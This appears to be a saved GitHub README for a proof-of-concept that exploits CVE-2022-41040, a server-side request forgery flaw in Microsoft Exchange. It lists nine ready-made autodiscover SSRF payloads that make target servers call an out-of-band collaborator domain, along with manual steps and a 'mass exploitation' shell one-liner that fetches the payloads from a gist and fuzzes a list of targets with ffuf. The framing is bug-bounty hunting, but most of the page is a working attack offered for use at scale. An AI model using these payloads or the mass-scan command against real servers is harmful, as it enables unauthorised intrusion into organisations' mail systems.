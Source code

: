 # CVE-2022-41040-POC

CVE-2022-41040 - Server Side Request Forgery (SSRF) in Microsoft Exchange Server

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kljunowsky](https://github.com/kljunowsky) |
| Url      | [https://github.com/kljunowsky/CVE-2022-41040-POC](https://github.com/kljunowsky/CVE-2022-41040-POC)                                               |
| Stars    | 76                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* bug-bounty* bugbounty* cve-2022-41040* exploit* hacking* microsoft* microsoft-exchange* poc* proof-of-concept* security* ssrf

</details>

## Readme

# CVE-2022-41040-POC
CVE-2022-41040 - Server Side Request Forgery (SSRF) in Microsoft Exchange Server

## Manual exploiation 

1. Replace `COLLABHERE` with your OOB domain - `sed 's/COLLABHERE/<oob-domain>/g`

2. Add payloads next to URLs you want to test - `echo http://target.com|unfurl format %s://%d/<payload>`

3. Visit crafted URLs

4. Check your collaborator

Payloads:
```
/autodiscover/autodiscover.json?@%d.v1.COLLABHERE/&Email=autodiscover/autodiscover.json%3f@%d.v1.COLLABHERE
/autodiscover/autodiscover.json/v1.0/aa@%d.v2.COLLABHERE?Protocol=Autodiscoverv1
/autodiscover/autodiscover.json/v1.0/aa..@%d.v3.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a..@%d.v3.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
/autodiscover/autodiscover.json/v1.0/aa@%d.v4.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a@%d.v4.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
/autodiscover/autodiscover.json?aa..%d.v5.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a..%d.v5.COLLABHERE&Protocol=Autodiscoverv1&%d.v5.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json?aa@%d.v6.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a@%d.v6.COLLABHERE&Protocol=Autodiscoverv1&%d.v6.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json?aa..%d.v7.COLLABHERE/owa/?&Email=aa@autodiscover/autodiscover.json?a..%d.v7.COLLABHERE&Protocol=Autodiscoverv1&%d.v7.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json?aa@%d.v8.COLLABHERE/owa/?&Email=aa@autodiscover/autodiscover.json?a@%d.v8.COLLABHERE&Protocol=Autodiscoverv1&%d.v8.COLLABHEREProtocol=Powershell
/autodiscover/autodiscover.json/v1.0/aa@autodiscover/autodiscover.json?a..@%d.v9.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
```

## Mass exploitation

```
for url in $(curl -s https://gist.githubusercontent.com/kljunowsky/a2e8392f63fb8d7c0443f2011bce59ec/raw/7b4cabaa0dab7113b1cab00e1a2cb0c4e3c6ed06/cve-2022-41040-unfurl-payloads.txt|sed 's/COLLABHERE/<OOB-PAYLOAD>/g'); do cat targets.txt |unfurl format $url >> fuzz-ready.txt;done & ffuf -w fuzz-ready.txt -u FUZZ
```

Check your collaborator!

Happy hunting!

### Requirements
[ffuf](https://github.com/ffuf/ffuf)
Thanks [@joohoi](https://github.com/joohoi)!


[unfurl](https://github.com/tomnomnom/unfurl)
Thanks [tomnomnom](https://github.com/tomnomnom)!

[Twitter](https://twitter.com/milanshiftsec)

[LinkedIn](https://www.linkedin.com/in/milan-jovic-sec/)



## Get the content

```
git clone https://github.com/kljunowsky/CVE-2022-41040-POC
cd CVE-2022-41040-POC
```

{% embed url="https://github.com/kljunowsky/CVE-2022-41040-POC" %}

<figure><img src="https://avatars.githubusercontent.com/u/104329412?v=4" alt=""><figcaption><p>kljunowsky</p></figcaption></figure>
